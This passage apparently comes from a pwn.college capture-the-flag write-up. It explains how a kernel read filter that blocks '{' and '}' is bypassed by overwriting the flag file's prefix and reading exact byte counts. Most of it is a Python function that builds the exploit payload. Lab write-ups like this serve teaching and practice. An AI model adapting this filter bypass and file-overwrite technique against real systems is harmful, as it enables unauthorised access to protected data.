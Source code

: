 ```python
```

## Challenge 7

Similar to challenge 6, but now `sys_read` kernel handler is adjusted. After some RE, I've found out this handler actually copies the content of the underlying read to some temporary kernel buffer, and performs the following check:

```c
if (((c - 0x7b) & 0x7d) == 0)
{
    state->signal = -42;
}
```

In other words, if the content of the underlying read contains the characters `'{' , '}'`, as the flag does, the read is stopped right away. If we can adjust the `struct file` underlying pos, we can bypass this. This should require kernel addresses manipulation though. \
Another easier way, is to simply write `A * 12` to the flag, overwriting `pwn.college{` string. We can set the exact bytes to be read as the flag's exact length, in order to not reach the ending `}`. \
I've only needed to adapt `gen_yancode`, and the exploit have worked in a similar manner to level 6:

```python
def gen_yancode(adjusted=False):
    flag_path = b'/flag\x00'  
    flag_addr = 0
    flag_content = b'A' * 12  # Overwrite "pwn.college{"
    flag_content_addr = flag_addr + len(flag_path)
    precise_flag_length = 41
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "/flag\x00" and its preceding content in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path + flag_content)
    # open("/flag", O_RDWR, 0)
    yancode += open_file(file_addr=flag_addr, flags=2)
    # Overwrite the flag's header
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=len(flag_content))

    yancode += write_register(Regs.a, 0)
    # Read the precise amount of the flag's length
    yancode += read_to_memory(fd=Regs.a, offset=flag_content_addr, count=precise_flag_length, adjusted=adjusted)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)
    
    yancode += b'\x00' * (MAX_YANCODE_SIZE - len(yancode))
    return yancode
```


[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html